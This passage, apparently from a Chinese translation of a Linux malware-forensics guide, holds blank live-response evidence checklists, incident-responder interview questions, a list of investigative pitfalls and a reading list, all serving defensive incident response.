        - UDP
    - 连接状态：
        - ESTABLISHED（已建立）
        - LISTEN（监听）
        - SYN_SEND（同步发送）
        - SYN_RECEIVED（同步接收）
        - TIME_WAIT（等待超时）
        - 其他：___
    - 与打开的端口关联的进程名称和标识符（PID）：
    - 与该进程和端口关联的可执行程序：
    - 关联可执行文件路径：___
    - 关联用户：

## 服务：

- **已识别可疑服务：**
    - 服务名称：
    - 显示名称：
    - 状态：
        - Running（运行中）
        - Stopped（已停止）
    - 启动配置：
    - 描述：
    - 依赖项：
    - 与服务关联的可执行程序：
    - 进程标识符（PID）：
    - 描述：
    - 可执行程序路径：
    - 与服务关联的用户名：

- **已识别可疑服务：**
    - 服务名称：
    - 显示名称：
    - 状态：
        - Running（运行中）
        - Stopped（已停止）
    - 启动配置：
    - 描述：
    - 依赖项：
    - 与服务关联的可执行程序：
    - 进程标识符（PID）：
    - 描述：
    - 可执行程序路径：
    - 与服务关联的用户名：

- **已识别可疑服务：**
    - 服务名称：
    - 显示名称：
    - 状态：
        - Running（运行中）
        - Stopped（已停止）
    - 启动配置：
    - 描述：
    - 依赖项：
    - 与服务关联的可执行程序：
    - 进程标识符（PID）：
    - 描述：
    - 可执行程序路径：
    - 与服务关联的用户名：

- **已识别可疑服务：**
    - 服务名称：
    - 显示名称：
    - 状态：
        - Running（运行中）
        - Stopped（已停止）
    - 启动配置：
    - 描述：
    - 依赖项：
    - 与服务关联的可执行程序：
    - 进程标识符（PID）：
    - 描述：
    - 可执行程序路径：
    - 与服务关联的用户名：

## 内核模块：

- 获取的内核模块列表
- 可疑模块：
    - 名称：
    - 位置：
    - 详细信息：

- 可疑模块：
    - 名称：
    - 位置：
    - 详细信息：

- 可疑模块：
    - 名称：
    - 位置：
    - 详细信息：

## 打开的文件：

- 已识别打开的文件：
    - 远程打开/本地打开
    - 文件名：
    - 打开该文件的进程：
    - 文件在系统上的位置：

- 已识别打开的文件：
    - 远程打开/本地打开
    - 文件名：
    - 打开该文件的进程：
    - 文件在系统上的位置：

- 已识别打开的文件：
    - 远程打开/本地打开
    - 文件名：
    - 打开该文件的进程：
    - 文件在系统上的位置：


## 存储介质的法证复制：

- **介质类型：**
- [ ] 硬盘 [ ] 外置硬盘 [ ] 外置设备/介质
- **制造商/型号：** ______________________ **序列号：** ______________________
- **容量：** ______________________
- **备注：**

- **已获取：** [ ] **未获取 [原因]：** [ ]
- **日期/时间：**
- **文件名：**
- **大小：**
- **MD5 值：**
- **SHA1 值：**
- **使用的工具：**
- **备注：**

- **介质类型：**
- [ ] 硬盘 [ ] 外置硬盘 [ ] 外置设备/介质
- **制造商/型号：** ______________________ **序列号：** ______________________
- **容量：** ______________________
- **备注：**

- **已获取：** [ ] **未获取 [原因]：** [ ]
- **日期/时间：**
- **文件名：**
- **大小：**
- **MD5 值：**
- **SHA1 值：**
- **使用的工具：**
- **备注：**

### 系统安全配置

| 系统安全配置 | 识别出的不安全配置 |
| :--- | :--- |
| **操作系统版本：** | [ ] |
| **内核版本：** | [ ] |
| | [ ] |
| | [ ] |
| | [ ] |
| | [ ] |
| | [ ] |
| | [ ] |
| | [ ] |
| | [ ] |
| | [ ] |
| | [ ] |
| | [ ] |

### 可信主机关系

- [ ] 已收集 `/etc/hosts` 文件内容：
- [ ] 已识别可疑条目：

- [ ] 已收集 `/etc/hosts` 文件内容：
- [ ] 已识别可疑条目：

### 自启动位置/持久化机制

- [ ] 已识别可疑持久化机制：
  - **位置：**
  - **程序名称：**
  - **程序描述：**
  - **程序元数据：**
  - **程序可执行文件路径：**

- [ ] 已识别可疑持久化机制：
  - **位置：**
  - **程序名称：**
  - **程序描述：**
  - **程序元数据：**
  - **程序可执行文件路径：**

### 系统日志

- [ ] 已获取 `/var/log/auth.log`
- [ ] 未获取 [原因]：
- [ ] 已识别可疑条目
  - **事件类型：**
  - **详情：**
- [ ] 已识别可疑条目
  - **事件类型：**
  - **详情：**
- [ ] 已识别可疑条目
  - **事件类型：**
  - **详情：**

- [ ] 已获取 `/var/log/lastlog`
- [ ] 未获取 [原因]：
- [ ] 已识别可疑条目
  - **事件类型：**
  - **详情：**
- [ ] 已识别可疑条目
  - **事件类型：**
  - **详情：**

- [ ] 已收集 `/etc/hosts` 文件内容：
- [ ] 已识别可疑条目：
- [ ] 已收集 `/etc/resolv.conf` 文件内容：
- [ ] 已识别可疑条目：

- [ ] 已识别可疑持久化机制：
  - **位置：**
  - **程序名称：**
  - **程序描述：**
  - **程序元数据：**
  - **程序可执行文件路径：**

- [ ] 已识别可疑持久化机制：
  - **位置：**
  - **程序名称：**
  - **程序描述：**
  - **程序元数据：**
  - **程序可执行文件路径：**

- [ ] 已获取 `/var/log/secure`
- [ ] 未获取 [原因]：
- [ ] 已识别可疑条目
  - **事件类型：**
  - **详情：**
- [ ] 已识别可疑条目
  - **事件类型：**
  - **详情：**
- [ ] 已识别可疑条目
  - **事件类型：**
  - **详情：**

- [ ] 已获取 `/var/log/wtmp`
- [ ] 未获取 [原因]：
- [ ] 已识别可疑条目
  - **事件类型：**
  - **详情：**
- [ ] 已识别可疑条目
  - **事件类型：**
  - **详情：**

### 其他日志

- [ ] 已识别可疑条目
  - **事件类型：**
  - **详情：**

- [ ] 已获取 `/var/log/messages`
- [ ] 未获取 [原因]：
- [ ] 已识别可疑条目
  - **事件类型：**
  - **详情：**
- [ ] 已识别可疑条目
  - **事件类型：**
  - **详情：**
- [ ] 已识别可疑条目
  - **事件类型：**
  - **详情：**

- [ ] 已识别可疑条目
  - **事件类型：**
  - **详情：**

- [ ] 已获取其他日志：
  - `/var/log/dmesg.log`
  - `/var/log/dpkg.log`
  - `/var/log/kern.log`
  - `/var/log/mail.log`
  - `/var/log/syslog`
  - `/var/log/udev`
  - `/var/log/user.log`
  - `/var/log/cron.log`

## 用户和组策略信息

- **用户账户：**
- [ ] [ ] [ ] [ ] [ ] [ ]
- **备注：**

- **组：**
- **成员名称：**
- [ ] [ ] [ ]
- **成员名称：**
- [ ] [ ] [ ]
- **成员名称：**
- [ ] [ ] [ ]

## 文件系统

- [ ] 已识别可疑隐藏文件：
  - **文件位置：**
  - **文件名：**
  - **创建日期：**
  - **修改日期：**
  - **访问日期：**

- [ ] 已识别可疑隐藏文件：
  - **文件位置：**
  - **文件名：**
  - **创建日期：**
  - **修改日期：**
  - **访问日期：**

- [ ] 已识别可疑隐藏文件：
  - **文件位置：**
  - **文件名：**
  - **创建日期：**
  - **修改日期：**
  - **访问日期：**

- [ ] 已识别可疑隐藏文件：
  - **文件位置：**
  - **文件名：**
  - **创建日期：**
  - **修改日期：**
  - **访问日期：**

## 发现可疑回收站文件

## 网络浏览活动

- **网络浏览器：**
- **已收集互联网历史记录：**
- **已收集 Cookie 文件：**
- **其他：**

## 恶意软件提取

- [ ] 已识别可疑文件：
  - **文件名：**
  - **大小：**
  - **位置：**
  - **MAC 时间：**
    - 创建时间：
    - 访问时间：
    - 修改时间：
  - **关联进程/PID：**
  - **关联网络活动：**
  - **关联工件：**
  - [ ] 可疑文件已提取：
    - 是：[ ] 否：[ ] 原因：

- [ ] 已识别可疑文件：
  - **文件名：**
  - **大小：**
  - **位置：**
  - **MAC 时间：**
    - 创建时间：
    - 访问时间：
    - 修改时间：
  - **关联进程/PID：**
  - **关联网络活动：**
  - **关联工件：**
  - [ ] 可疑文件已提取：
    - 是：[ ] 否：[ ] 原因：

- [ ] 已识别可疑文件：
  - **文件名：**
  - **大小：**
  - **位置：**
  - **MAC 时间：**
    - 创建时间：
    - 访问时间：
    - 修改时间：
  - **关联进程/PID：**
  - **关联网络活动：**
  - **关联工件：**
  - [ ] 可疑文件已提取：
    - 是：[ ] 否：[ ] 原因：

- [ ] 已识别可疑文件：
  - **文件名：**
  - **大小：**
  - **位置：**
  - **MAC 时间：**
    - 创建时间：
    - 访问时间：
    - 修改时间：
  - **关联进程/PID：**
  - **关联网络活动：**
  - **关联工件：**
  - [ ] 可疑文件已提取：
    - 是：[ ] 否：[ ] 原因：

- [ ] 已识别可疑文件：
  - **文件名：**
  - **大小：**
  - **位置：**
  - **MAC 时间：**
    - 创建时间：
    - 访问时间：
    - 修改时间：
  - **关联进程/PID：**
  - **关联网络活动：**
  - **关联工件：**
  - [ ] 可疑文件已提取：
    - 是：[ ] 否：[ ] 原因：

- [ ] 已识别可疑文件：
  - **文件名：**
  - **大小：**
  - **位置：**
  - **MAC 时间：**
    - 创建时间：
    - 访问时间：
    - 修改时间：
  - **关联进程/PID：**
  - **关联网络活动：**
  - **关联工件：**
  - [ ] 可疑文件已提取：
    - 是：[ ] 否：[ ] 原因：


# 实时响应：现场访谈问题

案件编号： 
日期/时间： 
数字取证调查员： 
组织/公司： 
地址： 
事件类型： 
- 木马
- 蠕虫
- 病毒
- 僵尸网络节点 (Bot)
- 扫描软件/假冒反病毒软件
- 根套件 (Rootkit)
- 逻辑炸弹
- 键盘记录器
- 勒索软件
- Smiffy
- 其他
- 未知

受访者姓名： 
部门/分区： 
电话号码： 
手机号码： 
电子邮件地址： 

主要联系人姓名： 
部门/分区： 
电话号码： 
手机号码： 
电子邮件地址： 

法律顾问： 
公司/组织是否有法律顾问？ 
- 是
- 否

姓名： 
联系方式： 

是否需要通知法律顾问？ 
- 是
- 否

法律顾问是否已被通知？ 
- 是
- 否

## 权限范围与隐私利益：

- 是否有一个人对目标系统/网络拥有总体权限/责任？
  - 是
  - 否
  - 姓名：
  - 联系方式：
- 是否需要通知该人员？
  - 是
  - 否
- 该人员是否已被通知？
  - 是
  - 否
- 是否有其他人员对系统/网络拥有权限？
  - 是
  - 否
  - 姓名：
  - 联系方式：
- 系统是否共享？（即，它是否是一个托管多个服务器并具有多个隐私利益的系统）
  - 是
  - 否
  - 详情（如果是）：

职位/职业：
- 工作头衔：
- 工作职责/任务/目标：
- 在该职位任职的年数：
- 与目标系统的关系背景：

□ 在系统/网络上的权限范围：

## 事件通知：

□ 您是如何得知感染事件/目标系统的：
□ 您何时得知感染事件/目标系统的：
□ 您从事件中/目标系统得悉了什么信息：
□ 是否有人因该事件/目标系统而被通知：
□ 目标系统的发现/明显症状：

## 系统详情：

□ 制造商/型号：
□ 操作系统：
□ 内核版本：
□ 系统补丁/更新频率：
□ 补丁/更新如何部署：
□ 主要系统用户：
□ 还有哪些人有权访问系统？：
□ 哪些用户被授权访问该系统？：
□ 谁是系统管理员/谁维护该系统？：
□ 系统是否共享或由另一组织托管/管理（即，该系统是否由多个实体使用、由另一家公司托管或由外部服务提供商管理）？如果是，请提供详情：
□ 系统上假设应该有哪些可访问的网络共享（如果有）？
□ 假设与其他系统之间存在哪些受信任的关系（如果有）？
□ 目标系统的目的/功能：
□ 目标系统如何组网？：
□ 目标系统的 IP 地址： ________________________ ________________________ ________________________
□ 系统的主机名/网络名称：
□ 系统上的敏感信息？：
- 商业秘密/知识产权
- 个人身份信息/个人健康信息 (PII/PHI)
- 商业机密
- 非机密
- 其他： ________________________
□ 该系统之前是否发生过恶意软件事件/实例？：

# 事件前系统/网络基线与证据映射

□ 已知在系统上运行的程序有哪些：
- 这些程序中是否有任何具有特定网络连接？：
- 系统的基线软件构建是什么（例如，使用什么网络浏览器等）？：
- 预期在系统上发现的软件程序有哪些？：
- 是否有任何工具在系统中用于合法目的，但可能被误认为是恶意的（例如，netcat）？：

□ 系统是否具有基于主机的安全软件：
- 反病毒：
- 反间谍软件：
- 软件防火墙：
- 互联网安全套件（例如，反病毒和防火墙）；
- 基于主机的入侵检测软件 (HIDS)；
- 基于主机的入侵预防系统 (HIPS)；
- 文件完整性监控：
- 智能卡/双因素身份验证：
- 其他

□ 基于网络的安全软件/设备：
- 代理服务器缓存：
- 防火墙：
- 路由器：
- 监控/记录 DNS 查询：
- 入侵检测系统：
- 入侵预防系统：
- 事件响应/网络取证设备：
- 其他：

## 日志

- 收集和维护哪些系统和网络日志？：
- 日志维护在何处？：
- 您是否有一份日志副本可以为了此次调查的目的提供？：
- 谁负责监控和分析日志？：
- 日志多久审查一次？：
- 日志是如何审查的？：
- 日志上次审查是什么时候？：
- 日志维护/归档回溯多久？：

## 安全策略

- 是否禁止特定的物理设备连接到系统？：
- 允许哪些类型的物理设备连接到系统？：
- 据您所知，哪些物理设备已连接到系统？：
- 是否禁止在系统上运行某些程序？
- 是否禁止在系统上运行某些协议？（例如，文件共享，p2p）

## 之前的感染或妥协迹象：

- 识别出的系统异常？：
- 这些异常是什么？：
- 系统是否在异常时间被访问或登录？：
- 与目标系统相关的网络异常？：
- 是否在异常时间有流入或流出系统的网络流量？：
- 是否出现异常的流入或流出系统的网络流量体积？：
- 是否有异常协议调用或从系统流出？：
- 是否从其他系统出现过类似的异常流量？：

## 事件响应/调查

- 谁报告了目标系统？：
- 系统被报告后发生了什么？：
- 系统是否被离线？：
- 系统是否被关闭？：
- 如果采取了任何实时响应步骤，是哪些？：
  - 获取物理内存
  - 收集易失性数据
  - 对硬盘进行镜像
  - 其他：
- 使用了哪些工具？：
- 谁进行了实时响应取证？：
- 是否有关于事件响应的报告？：
- 是否制定了事件响应协议？：
- 是否收集并保存了任何可疑文件？：
- 是否对可疑文件进行了分析？：
- 是否制作并保存了硬盘的镜像？：
- 是否对磁盘进行了分析？：
- 镜像和分析使用了什么软件？：
- 是否有任何第三方参与事件响应、分析或修复？：
- 第三方报告是否可供审查？：
- 是否将可疑文件/恶意软件提交给任何在线恶意软件扫描/沙箱服务？：
- 还采取了哪些其他调查或修复步骤？：
- 与该事件相关的证据保存在哪里？：
- 是否使用了证据保管链表格？：
- 在调查过程中，是否识别出其他涉及或与该事件相关的系统？：
- 您认为攻击向量是什么？：
- 其他用户是否经历了相同类型的攻击？：

## 事件发现：

- 在事件响应过程中是否识别出任何系统异常？
- 这些异常是什么？
- 是否发现了与目标系统相关的异常网络流量？：

# 需要避免的陷阱

## 未遵循授权的策略和指南

不要独自行动，否则你可能会因采取错误的响应措施而受到责备，使情况变得更糟！

- 在可行的情况下，遵循受害组织的已授权的书面策略和指南，以确保您针对恶意软件事件采取的响应措施获得该组织的授权。这些策略应包括获取授权以保存证据和进行数字取证调查的流程。
- 当出现现有政策未涵盖的意外情况，或者组织没有管理恶意软件事件响应的书面策略时，在采取行动之前从决策者那里获得书面授权。这种情况可以包括中断业务连续性的行动；您不想对任何由此造成的损失或法律行动负责。
- 遵循在实时系统上以取证可靠的方式保存证据的指南，以避免销毁有价值的证据。

## 未制定包含实现具体响应/分析目标计划的初步策略

在明确定义目标之前，不要深入进行恶意软件事件的实时响应，否则您可能会错过证据和调查机会，最终无法解决重要问题。

- 定义您的恶意软件事件响应和分析目标，并制定实现这些目标的策略。
- 记录您向既定目标的进展，并在发现关于恶意软件事件的新信息时，对计划进行必要的调整。

## 在事件发生前未熟悉工具、技术和协议

不要等到实际恶意代码事件发生时才开始熟悉用于调查目标系统的取证流程、技术和工具。

- 通过在测试环境中使用您的工具来练习实时响应技术，以保持和维持熟练程度。


## 关于实时响应培训与工具的建议

- 在可能的情况下参加相关培训。预算限制、时间限制和其他因素通常使参加正式培训变得困难。如果无法参加，请变通处理：参加免费网络研讨会；观看基于网络的教程；复习自学教材、白皮书和博客；并参加当地信息安全小组会议。

- 保持对工具和技术的最新了解。实时响应是数字取证领域的一个新兴领域；几乎每天都有新工具或工具更新发布，新研究和新技术被讨论。关注当前最新情况很可能会增强你实时响应知识库和技能的范围。

- 关注新威胁。与保持对工具和技术的最新了解类似，反向同样重要——关注恶意代码趋势、漏洞和攻击向量。

- 利用在线资源，如社交网络和信息列表。通常很难找到时间参加培训、阅读书籍或参加当地信息安全小组会议。一个了解实时响应工具和技术最新情况的优秀资源是社交媒体，如 Twitter 和 Facebook。加入这些媒体上的特定列表或群组可以提供感兴趣主题的实时更新。

## 未能测试和验证你的工具

- 在对目标系统部署工具之前，首先必须清楚了解你工具的功能、局限性、“足迹”以及对系统的潜在负面影响（例如，崩溃）。

- 研究你打算纳入实时响应工具包的工具。它们是否被取证界普遍接受？是否有已知的“错误”或需要注意的局限性？你阅读了工具的所有文档吗？

- 在测试环境中部署工具以验证功能，并清晰了解每个工具如何工作以及它如何影响其部署的目标系统。

- 在与证据系统相同或足够相似的测试环境中编译和测试工具，以确保它们在实时响应期间正常运作。需要考虑的相似性不仅限于操作系统或内核版本，还包括运行中的服务和加载的内核模块，响应工具可能会与之发生不良交互，从而破坏高可用性服务或系统。

- 记录你的发现——关于工具的笔记不仅是有价值的参考，而且还可以用于报告编写。

- 此外，当你遇到工具问题时，考虑通知开发人员以帮助确认并在未来版本中解决潜在问题。

## 使用未正确许可的商业工具

- 不要使用“破解版”或“盗版”工具。

- 记住你的调查最终可能会进入法律程序，无论是刑事、民事还是行政程序。尽管你的分析和工作成果可能准确且全面，但不得不解释你在调查过程中使用了非法或不道德获取的工具可能会损害你的可信度——甚至可能损害你的调查。

- 即使你拥有特定工具的许可证，也要确保你按照许可证条款使用它。例如，如果在恶意软件事件响应过程中多人同时使用特定工具，请确定许可证允许这种使用。作为另一个例子，如果工具输出包含许可人/实体的名称，请确保这些信息准确，以避免将来关于工具所有权和合法性的质疑。

## 在进行实时响应之前未进行访谈

- 未在进行实时响应之前对相关方进行访谈可能会导致你遗漏重要细节。

- 在进行实时响应之前对相关方进行访谈可以为你提供有关目标系统的信息，包括事件周围的情况、目标系统的背景以及对你的调查至关重要的系统或网络细节。

## 过早清理被入侵的系统

- 在采取措施保存证据并确定入侵的完整范围之前，试图修复被入侵的计算机可能会销毁证据并允许恶意软件重新感染。

- 在尝试将受损系统恢复到已知正常状态之前，保存证据并执行取证分析以确定事件的范围。

## 直接从目标系统运行不可信的工具

- 不要运行你在目标系统上找到的不可信工具来收集证据。

- 目标系统是一个未知且不可信的环境，易失性数据的收集可能会因感染系统而被污染。运行你在目标系统上找到的不可信工具依赖于系统的操作系统，该操作系统可能已被恶意软件破坏，从而增加了所获取数据不可靠的风险。

- 确保从事件响应工具包运行可信的命令 shell/工具。虽然受损的操作系统可能仍然隐藏信息，但运行可信工具可以减少意外后果的风险。

## 不使用干净的 toolkit 或取证健全/干净的获取介质

- 不要通过受感染的 toolkit 传播恶意软件，也不要通过在“脏”介质上获取数据来污染你的数据。

- 始终确保你用于获取实时响应数据的介质是原始的，并且不包含来自先前调查的无关案件数据、恶意代码样本和其他工件。

- 在部署之前始终检查你的 toolkit 和获取介质。

- 意识到常见的恶意代码向量是 USB 设备——你正在调查的恶意软件可以通过连接到系统来传播并感染你的实时响应介质。因此，建议在每次响应恶意软件事件时使用一个新的、干净的、已知正常的响应工具包副本。此外，在运行 toolkit 之前验证其完整性（在每个系统上，例如使用 MDS 值），以确保它不会成为感染向量。

## 不遵循易失性顺序

- 丢失关键证据。

- 如本书引言和本从业者指南主体中所述，在通电状态下，目标系统包含关键的短暂信息，揭示了系统的状态。

- 实时响应的目的是以取证健全的方式收集这些易失性信息，以免丢失；不遵循易失性顺序并先收集低易失性信息不仅会影响系统上易失性数据的状态（例如内存内容），而且还会增加完全丢失数据的风险。网络连接、进程状态和数据缓存如果不能及时获取，可能会迅速变化。

## 未记录系统日期和时间

- 忘记在实时响应开始时记录系统日期和时间并将其与可靠时间源进行比较，可能会对你的调查造成问题。

- 系统日期和时间是关于可疑系统的一个必要细节，将作为你调查中时间背景的基准。

除了通过你的实时响应工具包获取日期和时间外，务必在你的调查笔记中记录系统日期和时间。

## 未在整个实时响应过程的开头获取物理内存的内容

- 通过在证据中留下“深刻足迹”来污染/影响证据。

- 如本附录所示，在目标系统上运行实时响应工具会影响物理内存的内容。

- 在进行其他实时响应过程之前获取物理内存，努力在获取时尽可能保持内存内容原始。

## 收集不完整的系统细节

- 不完整的系统细节可能会影响你目标系统周围的背景。

- 确保尽可能收集关于目标系统的许多细节，给你关于系统及其周围环境的深度背景。例如，系统日期/时间和系统正常运行时间等关键细节在建立恶意软件事件周围的时间线方面是基础性的。

- 收集目标系统的主机名、IP 地址和其他基于网络的标识符对于检查与其他网络系统的关系背景至关重要。

## 未确定攻击者是否仍登录到目标系统

- 不要让攻击者知道你在调查他们。

- 在攻击者位于目标系统上时进行实时响应很可能会提醒攻击者你的调查。由于你可能无法依赖操作系统获取准确信息，请考虑监控网络流量或其他手段来确定入侵者是否连接到目标系统。

- 提醒攻击者可能会对你的调查和目标系统（以及网络上的其他系统）产生毁灭性后果，例如销毁证据、升级攻击或额外的妥协以维持不被注意、不可发现和持续访问系统。在可行范围内，采取措施防止入侵者发现你的响应活动，例如让系统进行“计划维护”并移除目标系统中的响应痕迹。


## 未能进行全面调查

- 未能获取关于嫌疑系统和恶意代码事件的完整上下文。
- 对目标系统进行“平面化”或不完整的调查，将限制您对恶意代码事件、目标系统受到的影响以及攻击性质和目的的理解。
- 进行完整和彻底的调查，从多个角度收集数据，以便进行完整的分析。例如，在从目标系统收集正在运行的进程信息时，仅获取一个正在运行的进程列表而不附加详细信息，会使您作为数字取证调查人员无法获取关于进程及其与其他证据之间关联上下文的充分信息。
- 如果其他人进行了初步响应和证据收集，请检查他们的工作，不要假设他们的调查是完整或全面的。

## 不完整或草率的文档

- 不要因记录不良而危及您的调查。
- 正如本书导言中所讨论的，文档是确保取证严谨性的关键之一。
- 一个扎实的案件建立在支持性文档的基础上，这些文档报告了证据的来源及其处理方式。
- 从取证角度来看，采集过程应尽可能少地改变原始证据，任何改变都应在最终分析结果的背景下进行记录和评估。

## 推荐阅读

### 书籍

Blum, R., & Bresnahan, C. (2011). *Linux 命令行与 Shell 脚本圣经* (第2版). 纽约:  Wiley.

Casey, E. (2011). *数字证据与计算机犯罪，第三版：取证科学、计算机与互联网* (第3版). 马萨诸塞州伯林顿:  Academic Press.

Nemeth, E., Snyder, G., Hein, T., & Whaley, B. (2010). *UNIX 和 Linux 系统管理手册* (第4版). 新泽西州上萨德尔河:  Prentice Hall.

Casey, E. (2009). *数字取证与调查手册*. 马萨诸塞州伯林顿:  Academic Press.

Sobell, M. (2009). *Linux 命令、编辑器和 Shell 编程实用指南* (第2版). 新泽西州上萨德尔河:  Prentice Hall.

Shah, S., & Soyinka, W. (2008). *Linux 管理：初学者指南* (第5版). 纽约:  McGraw-Hill Osborne Media.

Jones, K., Bepitch, R., & Rose, C. W. (2005). *真实数字取证*. 马萨诸塞州雷丁:  Addison-Wesley Professional.

Farmer, D., & Venema, W. (2005). *取证发现*. 马萨诸塞州雷丁:  Addison-Wesley Professional.

Prosise, C., Mandia, K., & Pepe, M. (2003). *事件响应与计算机取证* (第2版). 纽约:  McGraw-Hill Osborne Media.

### 论文

Case, A., Cristina, A., Marziale, L., Richard, G. G., III, & Roussev, V. (2008). FACE：自动化数字证据发现与关联。载：第八届年度数字取证研究工作坊论文集. 马里兰州巴尔的摩:  DFRWS.

Case, A., Marziale, L., & Richard, G. (2010). 用于实时取证的内核数据结构动态重建。 *数字取证*，第7卷，增刊，2010年8月，第 S32~S40 页。第十届年度 DFRWS 会议论文集。Elsevier. 检索自 www.dfrws.org/2010/proceedings/2010-304.pdf.

Kent, K., et al. (2006). *将取证技术整合到事件响应中的指南*. 马里兰州盖瑟斯堡:  美国国家标准与技术研究院。 (特别出版物 800-86).

Urrca, J. M. (2006). *Linux 内存取证分析硕士论文*. 海军研究生院. 检索自 http://cis.nps.edu/downloads/theses/0thesis_urrea.pdf.

### 在线资源

Sorensen, H. (2003). *Unix 事件响应工具，第一部分：系统工具*. 检索自 http://www.symantec.com/connect/articles/incident-response-tools-unix-part-one-system-tools (最初发布于 http://www.securityfocus.com/infocus/1679).

Sorensen, H. (2003). *Unix 事件响应工具，第二部分：系统工具*. 检索自 http://www.symantec.com/connect/articles/incident-response-tools-unix-part-two#file-system-tools (最初发布于 http://www.securityfocus.com/infocus/1738).

Burdach, M. (2004). *运行中的 Linux 系统取证分析，第 1 部分*. 检索自 http://www.symantec.com/connect/articles/forensic-analysis-live-linux-system-pt-1 (最初发布于 http://www.securityfocus.com/infocus/1769).

Burdach, M. (2004). *运行中的 Linux 系统取证分析，第 2 部分*. 检索自 http://www.symantec.com/connect/articles/forensic-analysis-live-linux-system-pt-2 (最初发布于 http://www.securityfocus.com/infocus/1773).

### 判例法/RFC/技术规范

RFC 3227, *证据收集与归档指南*. *哥伦比亚电影产业有限公司诉 Buell 案*，2007 年美国地区法院法律信息系统第 46364 号 (加利福尼亚州中区地方法院，2007年6月19日).

